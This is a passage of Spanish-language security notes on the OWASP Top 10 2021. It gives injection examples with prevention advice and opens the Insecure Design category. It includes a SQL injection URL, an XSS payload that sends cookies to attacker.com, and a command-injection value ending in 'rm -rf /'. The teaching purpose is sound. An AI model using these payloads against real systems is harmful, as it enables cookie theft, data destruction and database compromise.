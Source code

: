   - **Ejemplos:**

    - **SQL Injection:** Un atacante modifica un parámetro id en una URL
      de http://example.com/app/accountView?id=123 a
      http://example.com/app/accountView?id=\' UNION SELECT
      SLEEP(10);\-- para hacer que la base de datos espere 10 segundos,
      confirmando la vulnerabilidad.\[29\]

    - **Cross-Site Scripting (XSS):** Un atacante introduce
      \<script\>document.location=\'http://attacker.com/steal_cookie.php?cookie=\'+document.cookie\</script\>
      en un campo de comentario que luego se muestra a otros usuarios
      sin la debida sanitización.\[30\]

    - **Command Injection:** Una aplicación permite al usuario
      especificar un nombre de archivo para listar, y el atacante
      ingresa filename.txt; rm -rf /.\[30\]

  - **Prevención:**

    - La opción preferida es usar APIs seguras que eviten el uso del
      intérprete por completo, proporcionen una interfaz parametrizada o
      migren a Herramientas de Mapeo Objeto-Relacional (ORMs).\[4, 29\]

    - Usar validación de entradas positiva del lado del servidor. Esto
      no es una defensa completa, ya que muchas aplicaciones requieren
      caracteres especiales.\[29\]

    - Para cualquier consulta dinámica residual, escapar los caracteres
      especiales usando la sintaxis de escape específica para ese
      intérprete.\[4, 29\]

    - Usar LIMIT y otros controles SQL dentro de las consultas para
      prevenir la divulgación masiva de registros en caso de SQL
      injection.\[4, 29\]

    - Para XSS, usar codificación de salida contextual (ej. HtmlEncode
      de bibliotecas como AntiXSS de Microsoft) y políticas de seguridad
      de contenido (CSP).\[30\]

    - Separar los datos de los comandos y consultas.\[4\]

- **A04:2021-Insecure Design (Diseño Inseguro)**

  - **Descripción:** Esta es una nueva categoría en 2021 que se enfoca
    en riesgos relacionados con fallas en el diseño y la arquitectura.
    Un diseño inseguro no puede ser corregido por una implementación
    perfecta, ya que, por definición, los controles de seguridad
    necesarios nunca fueron creados para defenderse contra ataques
    específicos.\[23, 31\]

  - **Cómo Ocurre:** Falta de perfilado del riesgo del negocio inherente
    al software o sistema que se está desarrollando, y por lo tanto, la
    falla en determinar qué nivel de diseño de seguridad se
    requiere.\[31\] Falta de modelado de amenazas, no usar patrones de
    diseño seguro, no considerar flujos de fallo o estados inseguros, o
    hacer suposiciones incorrectas sobre la confianza o el
    comportamiento del usuario.\[31, 32\] CWEs notables incluyen CWE-209
    (Generación de Mensaje de Error Conteniendo Información Sensible),
    CWE-256 (Almacenamiento No Protegido de Credenciales), CWE-501
    (Violación de Límite de Confianza).\[31\]
